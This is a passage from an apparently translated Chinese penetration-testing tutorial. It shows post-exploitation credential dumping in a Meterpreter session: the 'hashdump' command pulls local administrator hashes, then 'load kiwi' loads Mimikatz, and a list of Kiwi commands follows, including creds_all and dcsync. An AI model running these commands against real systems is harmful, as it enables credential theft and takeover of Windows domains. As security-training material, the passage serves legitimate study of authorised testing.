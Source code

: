 ![](img/69a8ce8a-4f7f-46ea-be85-52e5a68a1fbc.png)

是时候抢劫和掠夺了：

```
hashdump  
```

在下面的截图中，我们看到我们已经倒出了本地哈希：

![](img/64ffa220-da8a-40eb-865a-73d3bee3b9bb.png)

所以我们有本地管理员的哈希。很可能这也是域控制器和其他主机上的本地管理员，但让我们也倒一些 Active Directory 信息。为了做到这一点，我们需要加载 Kiwi 工具包：

```
load kiwi
```

要查看命令，请随时输入`help`。以下是 Kiwi 命令列表：

```
Kiwi Commands
=============
Command Description
------- -----------
creds_all Retrieve all credentials (parsed)
creds_kerberos Retrieve Kerberos creds (parsed)
creds_msv Retrieve LM/NTLM creds (parsed)
creds_ssp Retrieve SSP creds
creds_tspkg Retrieve TsPkg creds (parsed)
creds_wdigest Retrieve WDigest creds (parsed)
dcsync Retrieve user account information via DCSync (unparsed)
dcsync_ntlm Retrieve user account NTLM hash, SID and RID via DCSync
```